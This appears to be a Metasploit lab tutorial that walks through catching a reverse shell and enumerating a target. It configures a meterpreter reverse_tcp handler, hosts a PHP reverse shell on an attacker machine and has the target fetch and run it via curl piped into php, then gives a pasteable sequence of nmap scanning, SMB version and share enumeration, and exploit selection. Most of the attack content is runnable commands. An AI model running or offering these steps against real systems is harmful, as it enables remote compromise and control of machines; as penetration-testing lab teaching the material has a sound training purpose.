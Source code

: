 # Handlers — catch the shell (step-by-step example)

1. Start a handler in `msfconsole`:
    

```text
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set PAYLOAD linux/x86/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.0.0.5
msf6 exploit(multi/handler) > set LPORT 4444
msf6 exploit(multi/handler) > exploit -j
```

2. Deliver the payload to the target (lab):
    

- **Web delivery** (lab only): place `rev_shell.php` into a web root and trigger via browser/curl:
    

```bash
# on attacker machine: host the folder with the php file
python3 -m http.server 8000
# on target (lab) fetch it (if allowed in lab)
curl http://10.0.0.5:8000/rev_shell.php | php
```

3. Handler receives callback:
    

```text
msf6 > sessions -l
msf6 > sessions -i <id>
```

---

# Full pasteable lab scenario — end to end (condensed)

```text
# Start DB & workspace
sudo systemctl start postgresql
sudo msfdb init
msfconsole
workspace -a lab-scan
workspace lab-scan

# Fast port/service discovery, store in DB
db_nmap -sS -p 21,22,80,139,445,3306,3389 --open 10.10.10.5

# Check results
hosts
services

# SMB version + shares
use auxiliary/scanner/smb/smb_version
set RHOSTS 10.10.10.5
run

use auxiliary/scanner/smb/smb_enumshares
set RHOSTS 10.10.10.5
run

# Find exploit
search type:exploit smb  # then pick a matched exploit

# Configure exploit
use exploit/windows/smb/EXAMPLE_MODULE
set RHOSTS 10.10.10.5
```